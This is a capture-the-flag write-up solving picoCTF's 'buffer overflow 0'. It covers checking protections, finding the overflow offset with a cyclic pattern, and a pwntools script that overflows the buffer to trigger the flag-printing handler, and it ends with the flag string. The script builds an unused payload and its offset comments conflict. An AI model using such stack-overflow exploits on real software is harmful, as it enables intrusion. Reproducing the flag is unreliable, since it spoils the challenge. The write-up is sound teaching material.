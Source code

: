 # buffer overflow 0
#### Write-up author : vreshco
## DESCRIPTION:
Smash the stack Let's start off simple, can you overflow the correct buffer? 
The program is available [here](https://github.com/jon-brandy/CTF-WRITE-UP/blob/3505b54dcda38d2f82a13a3f0c10dca01ed65735/Asset/buffer%20overflow%200/vuln). You can view source [here](https://github.com/jon-brandy/CTF-WRITE-UP/blob/3505b54dcda38d2f82a13a3f0c10dca01ed65735/Asset/buffer%20overflow%200/vuln.c). 
And connect with it using: 
`nc saturn.picoctf.net 51110`

## HINTS:
1. How can you trigger the flag to print?
2. If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.
3. Run man gets and read the BUGS section. How many characters can the program really read?

## STEPS:
1. First, download both files given.
2. Next, let's check the file type.

> RESULT - BINARY FILE 32 BIT, NOT STRIPPED.

![image](https://user-images.githubusercontent.com/70703371/216072363-65882ebe-5259-452e-9b9a-e25eb1dbbfb7.png)


3. Since it's a binary file, let's check the binary's protections.

> RESULT - NO CANARY FOUND

![image](https://user-images.githubusercontent.com/70703371/216072557-4e367ab0-d907-4f66-a140-88e87b14764f.png)


4. Since there's no canary found, hence we don't need to worry about the canary, we can utilize the bufferoverflow concept.
5. Start by run the binary using gdb and input cyclic 1024 pattern.

> RESULT - THE PROGRAM CRASHED


![image](https://user-images.githubusercontent.com/70703371/216072902-59f349d2-2ba3-4590-b2a7-b34833974e6c.png)


6. As you can see, we succesfully overwrite the EBP.
7. To know the correct offset, simply run `cyclic -l haaa` (get the 4 characters from **EIP**.

![image](https://user-images.githubusercontent.com/70703371/216073235-dac0d415-cd49-4bf6-9d32-64d105a6a497.png)


8. Great the correct offset is 28 bytes, hence we need to add 24 bytes as the padding. 
9. Now to know the flag locations, let's read the source code.

![image](https://user-images.githubusercontent.com/70703371/216073489-5c3b09f2-ff44-47fa-9aa4-a3d05a6f6393.png)


10. Looks like the `sigsev_handler` functions shall be our interest now.
11. Let's try to jump to the function by adding 24 bytes as the padding. This is a **ret2win** concept.
12. Now get the address of `sigsev_handler` using gdb.

> RESULT


![image](https://user-images.githubusercontent.com/70703371/216073949-cf6ff879-b78b-4fa7-a3aa-55a008c66852.png)


13. To solve this challenge i made a python script with **pwntools**.

> THE SCRIPT

```py
#python3
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  
        return process([exe] + argv, *a, **kw)


exe = './vuln'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

sh = start()

offset = b'A' * 24 # EIP -> 28

p = flat([
    offset,
    0x130d
])

sh.sendlineafter(': ', offset)

sh.interactive()
```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/216074264-e52624b5-84b2-447c-9095-65b06f2d37c6.png)


14. Got the flag!

## FLAG

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_8ba275ff}
```

